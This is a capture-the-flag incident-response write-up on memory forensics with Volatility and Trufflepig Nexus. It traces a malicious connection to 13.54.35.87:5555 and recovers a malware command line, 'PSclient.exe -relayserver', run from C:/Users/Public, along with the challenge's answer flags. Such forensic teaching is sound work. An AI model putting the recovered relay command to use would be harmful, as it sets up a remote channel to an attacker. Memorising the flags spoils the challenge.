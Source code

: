 ```yaml
---
title: 8. Alternate Persistence
weight: 8
---
```


## Alternate Persistence
> If things weren't bad enough, ALIEN have identified odd connections originating on the network. Seems that the actor has still a few tricks to retain access...

For this bit we are moving away from disk artefacts and we use the memory image that has been provided under `workstation1.alien.local-memory`. Wanted to run through each question and do in both Nexus and in Volatility to see the differences (where possible and where I knew where to look). I find memory forensics really fun and its a great way to see what malware is doing once it is unpacked in memory.

**Note: See <a href="{{ site.baseurl }}/ACSC-BSides-IR-Challenge-2021-Setup/" target="_blank">this page </a>for tool set up and explanations.**

### AP-1
<h5>There have been some odd connections out to the malicious IP from the actor’s new target. What ip and port is the actor using? Flag format: IP:PORT</h5>

Our actor IP address we know about is 13.54.35.87. I actually flagged this in the Initial Access write up while using Trufflepig Nexus. This was really easy to find.

1. From the left hand menu choose "NetworkConnection".
2. Click on the search icon.
3. Add a field for Remote Address equals 13.54.35.87.

   ![Network connections in trufflepig Nexus](../images/AP-1.png)

<h5>Flag: 13.54.35.87:5555</h5>

Did this in volatility too
```
.local/bin/vol -f "/mnt/f/ACSC/ACSC_IR_Challenge_2021/artefacts/workstation1.alien.local-memory/memory.raw" netscan
```
Reviewing the output and we see this line:
```
0xac81949e9930  TCPv4   10.1.1.182      52763   13.54.35.87     5555    ESTABLISHED     32      PSclient.exe    2021-04-06 01:02:26.000000
```

### AP-2
<h5>Where is the binary associated with this malicious network connection, which we will call sample 4, executed from? Flag Format: c:\a\file\path</h5>

1. Select Process from the menu on the left.
2. Search for command line containing "5555".

```
Process:	32 | PSclient.exe
Parent Process:	4076 | wsmprovhost.exe
Name:	PSclient.exe
Command Line:	"C:/Users/Public/PSclient.exe" -autorestart -relayserver 13.54.35.87:5555
PID:	32
PPID:	4076
Start Time:	2021-04-06T01:02:26.568Z
```
